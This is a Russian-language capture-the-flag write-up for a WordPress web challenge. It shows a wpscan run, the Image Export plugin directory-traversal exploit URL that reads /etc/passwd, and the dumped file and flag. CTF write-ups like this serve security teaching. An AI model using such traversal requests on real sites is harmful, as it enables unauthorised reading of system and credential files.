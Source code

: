 Mr.Hacker [Web 150]
=====================
> Красивый дизайн, впечатляющие возможности и свобода создавать всё, что вы захотите.
http://185.17....... (Посмотри на логин этого парня)


![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image01.PNG?raw=true)

Переходим на сайт. Видим, что cms сайта - ```wordpress```. Так же можно узнать версию wordpress ```4.7.3```.
Если вы читаете IT новости, то наверняка видили много статьей про уязвимости wordpress, а значит нам необходимо их проэкспуатировать

Используем встроенный в Kali Linux сканер ```wpscan``` (его также можно установить на любой другой дистрибутив)

Инициализируем, используя флаги ```--url``` (для указания ip адресса сайта)  ```--enumerate``` (перечисление опций ) ```vp``` (только уязвимые плагины)

```wpscan --url http://185.17......./ --enumerate vp```


В результате сканирования получаем следующую информацию:

```
[+] We found 1 plugins:

[+] Name: image-export - v4.1
 |  Location: http://185.17......./wp-content/plugins/image-export/
 |  Readme: http://185.17......./wp-content/plugins/image-export/readme.txt

[!] Title: Image Export <= 1.1.0 - Directory Traversal
    Reference: https://wpvulndb.com/vulnerabilities/8096
    Reference: http://www.vapid.dhs.org/advisory.php?v=135
    Reference: http://packetstormsecurity.com/files/132688/

[+] Finished: Sun Jun  3 15:22:51 2018
[+] Requests Done: 1697
[+] Memory used: 78.488 MB
[+] Elapsed time: 00:00:54
```

Как мы видим, на сайте используется уязвимый плагин ```Image Export```

Гуглим, натыкаемся на сайт с описанием экспоита:

```https://ru.0day.today/exploit/23884```

![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image02.PNG?raw=true)

Читаем описание экспоита.
Видим, что с помощью данного экспоита можно получить доступ к файлам сервера.
Применим его к нашему сайту, скачав файл с данными пользователей ```/etc/passwd```

```http://185.17......./wp-content/plugins/image-export/download.php?file=/etc/passwd```

Открываем файл и внизу обнаруживаем пользователя со странным никнеймом ```th1s_Is_d1r3cT0ryTR4VeRs4l```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
nut:x:84:84:nut:/var/state/nut:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/bin/false
th1s_Is_d1r3cT0ryTR4VeRs4l:x:1000:1000:Linux User,,,:/home/th1s_Is_d1r3cT0ryTR4VeRs4l:
<br />
<b>Warning</b>:  unlink(/etc/passwd): Permission denied in <b>/var/www/html/wp-content/plugins/image-export/download.php</b> on line <b>8</b><br />
```
Легко догадаться, что данное имя пользователя и является флагом

```flag{th1s_Is_d1r3cT0ryTR4VeRs4l}```

*p.s. Решение таска от команды Red Cadet*
